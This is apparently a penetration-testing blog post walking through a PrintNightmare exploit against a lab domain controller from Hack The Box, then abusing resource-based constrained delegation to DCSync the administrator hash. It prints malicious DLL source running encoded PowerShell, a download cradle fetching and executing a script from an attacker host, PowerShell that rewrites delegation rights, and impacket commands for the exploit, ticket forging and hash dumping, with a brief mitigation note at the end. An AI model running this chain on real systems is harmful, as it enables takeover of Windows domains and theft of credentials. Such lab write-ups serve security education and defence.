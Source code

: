 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-16751, cve-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) exploit (post CVE-2021-1675) abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

**<ins>UPD.</ins>** A few days later Microsoft assinged it a brand new **CVE-2021-34527**.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of DC machine account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a computer account an adversary can configure RBCD bits for that specific computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```powershell
(Get-WmiObject -ClassName Win32_OperatingSystem).Caption
Microsoft Windows Server 2016 Standard

(Get-WmiObject -ClassName Win32_OperatingSystem).ProductType
2

systeminfo
Host Name:                 MULTIMASTER
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
Domain:                    MEGACORP.LOCAL
```

## A Living Nightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command from the DLL in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)):

```bash
addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file containing a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
cat crandle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

cat crandle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will put the resulting base64 command into the DLL source code and cross-compile it to x64 using MinGW:

```bash
x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the SMB share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit script](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the script according to the environment:

```powershell
ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `PrincipalsAllowedToDelegateToAccount` property containing objects that can delegate to MULTIMASTER. It can be verified like follows:

```powershell
Get-ADComputer MULTIMASTER -Properties PrincipalsAllowedToDelegateToAccount
```

[![check-properties.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)

Now I can request a service ticket for LDAP:

```bash
getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate administrator
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py`:

```bash
export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/administrator.ccache
secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

